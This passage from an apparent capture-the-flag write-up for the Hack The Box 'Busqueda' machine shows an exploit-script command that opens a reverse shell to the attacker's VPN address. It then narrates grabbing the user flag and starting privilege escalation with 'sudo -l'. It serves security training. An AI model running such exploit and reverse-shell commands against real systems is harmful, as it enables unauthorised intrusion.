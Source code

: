 **heads up: you may need root permissions to open up a port, in which case just put a "sudo" at the beginning**

now just run this command and we should be ready to go:

``` bash
python3 exploit.py [INSERT_LOCAL_VPN_IP_HERE] 8080 [INSERT_TARGET_URL_HERE]
```
looks like we now have revshell as a user named svc:

![](/assets/img/htb_busqueda/Screenshot_From_2024-10-28_21-34-58.png)

### Command and Control

it seems as though we already have a normal user, so let's navigate to the home directory and see if we can find anything:

![](/assets/img/htb_busqueda/Screenshot_From_2024-09-24_01-20-54.png)

we then can see a file named user.txt and that seems to be the user flag!

I recommend a break here as we just did quite a bit.

now let's see if we can get root.

### Privilege escalation

here we can upload linpeas or something of that nature. While that would work, I want to try and get low hanging fruit with a simple "sudo -l"

![](/assets/img/htb_busqueda/Screenshot_From_2024-11-05_21-15-11.png)

